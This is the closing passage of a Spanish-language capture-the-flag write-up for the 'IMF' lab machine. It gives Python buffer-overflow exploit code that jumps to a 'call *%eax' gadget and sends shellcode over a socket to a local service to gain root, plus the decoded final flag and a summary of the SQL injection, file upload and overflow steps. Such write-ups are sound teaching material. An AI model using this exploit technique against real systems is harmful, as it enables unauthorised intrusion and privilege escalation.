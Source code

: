 ```

# ❯ objdump -d agent | grep -i "FF D0"
#  8048563:	ff d0                	call   *%eax

payload = shellcode + b"A" * (offset - len(shellcode)) + pack("<I", 0x08048563) + b"\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 7788))
s.recv(1024)
s.send(b"48093572\n")
s.recv(1024)
s.send(b"3\n")
s.recv(1024)
s.send(payload)
```

Ejecutamos el exploit, y con ello obtendremos acceso como usuario privilegiado (ROOT). La sexta bandera se encuentra en el directorio '/root'.

```
'R2gwc3RQcm90MGMwbHM=' -> Gh0stProt0c0ls
```

### Conclusión

El exploit en el CTF "IMF" utilizó una combinación de vulnerabilidades típicas en aplicaciones web (inyección SQL y subida de archivos) y una vulnerabilidad en un binario local (buffer overflow) para obtener acceso total al sistema y escalar privilegios. Las herramientas empleadas incluyeron BurpSuite, Ghidra, Python para la automatización, y técnicas clásicas de explotación de binarios con gdb.
